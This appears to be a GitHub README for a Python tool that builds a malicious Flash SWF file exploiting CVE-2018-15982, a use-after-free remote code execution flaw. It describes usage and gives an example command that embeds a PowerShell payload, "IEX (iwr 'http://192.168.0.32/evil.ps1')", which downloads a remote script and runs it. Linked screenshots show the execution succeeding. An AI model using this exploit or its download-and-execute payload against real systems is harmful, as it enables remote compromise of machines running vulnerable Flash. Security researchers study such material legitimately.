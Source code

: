 # Adobe Flash CVE-2018-15982

This script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)
